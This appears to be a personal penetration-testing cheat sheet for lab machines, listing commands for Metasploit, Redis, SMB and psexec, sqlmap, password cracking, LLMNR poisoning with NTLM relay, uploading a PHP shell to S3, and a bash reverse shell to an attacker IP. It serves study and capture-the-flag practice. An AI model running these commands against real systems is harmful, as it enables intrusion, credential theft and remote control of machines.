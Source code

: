 # Tools
Helpful resources
 - https://gowthams.gitbook.io/bughunter-handbook/  (quick reference)
 - https://exploit-notes.hdks.org (quick reference) 
 - https://portswigger.net/web-security/dashboard
 - https://cloud.hacktricks.xyz/welcome/readme
 - https://gtfobins.github.io/gtfobins/vi/#sudo
### Metasploit
 - use `exploit/...`
 - `show options`
 - `run`
 - After u r in a shell, u can put it in background using `background`.
 - Upgrade most recently opened session `sessions -u -1`.


### ZAP
 - `Tools -> Spider`
 - `Analyze -> Scan Policy Manager` remove the things u do not want to scan for, like if no DB, why SQL scanning?
 - see https://tryhackme.com/room/dastzap for authenticated scan details.

### Redis
 - `sudo apt install redis-tools`
 - `redis-cli -h {target_IP}`
 - `info`
 - `select 0` select db with index number.
 - `keys *`, list keys.
 - `get <key>`.

### xfreerdp
 - `xfreerdp /u:administrator  /v:10.129.1.13` try to connect without password.

### gobuster
 - `gobuster dir -u 10.129.145.11 -w ~/SecLists/Discovery/Web-Content/common.txt`

### mongo
 - ./mongo mongodb://{target_IP}:27017
 - help
 - show dbs;
 - use <db_name>;
 - show collections;
 - db.<collection_name>.find().pretty();

### rsync
 - `rsync --list-only 10.129.204.156::` list directories.
 - `rsync --list-only 10.129.204.156::public` list files within directory, here named public.
 - `rsync {target_IP}::public/flag.txt flag.txt` bring remote flag.txt in my machine.

### Mysql
 - `mysql -h <ip> -u root` to login.
 - SHOW databases; : Prints out the databases we can access.
 - USE {database_name}; : Set to use the database named {database_name}.
 - SHOW tables; : Prints out the available tables inside the current database.
 - SELECT * FROM {table_name}; : Prints out all the data from the table {table_name}.

### AWS s3
 - aws --endpoint=http://s3.thetoppers.htb s3 ls
 - aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
 - `aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb` to upload

### SSH tunneling
 - `ssh -L 1234:localhost:5432 christine@{target_IP}` locally we will be listening to 1234

### SMB
 - `smbclient \\\\10.10.10.131\\ADMIN$ -U Administrator` list.
 - `smbclient -L 10.129.27.203 -U administrator`.
 - `python psexec.py username:password@hostIP`.
 -  `psexec.py administrator@10.10.10.131`.

### John
 - `zip2john backup.zip > zip.hashes` dumps hashes to file.
 - `john zip.hashes` cracks the password.

### Hashcat
 - `hashcat -a 0 -m 0 admin_hash.txt /usr/share/wordlists/rockyou.txt` crack md5.
 - `hashcat -m 5600 hash.txt rockyou.txt` crach ntlm.

## Scanning
### nmap
 - `nmap --script=smb2-security-mode.nse -p445 <network>/24` find devices with smb signing disabled.
### Rustscan
 - `./rustscan -a 10.129.95.185 -r 1-65535` maybe use rustscan to find open ports first, and then use nmap for service detection and stuff.
### sqlmap
 - `sqlmap -u "http://10.129.29.21/dashboard.php?search=%27" --cookie="PHPSESSID=f0mn05nbrdadh5164gavl9q4un"`

### Responder
 - `sudo ./test/bin/python Responder.py -I vboxnet0 -rdwv` listen and respond for LLMNR poisioning.
 - `impacket-ntlmrelayx -tf targets.txt -smb2support` pass the hash, targets.txt has victims ip, `-i` to get interactive smb shell, `-e meterpreter.exe`.

## Upgrading shell with TTY session
 - `python3 -c 'import pty;pty.spawn("/bin/bash")'`
### bash
 - `bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"`, reverse shell.
 - `sudo -l` check sudo permissions.
 - 

# Privilige escalation
 - `id` see what groups we are a part of, google to see if these groups have any extra permissions.
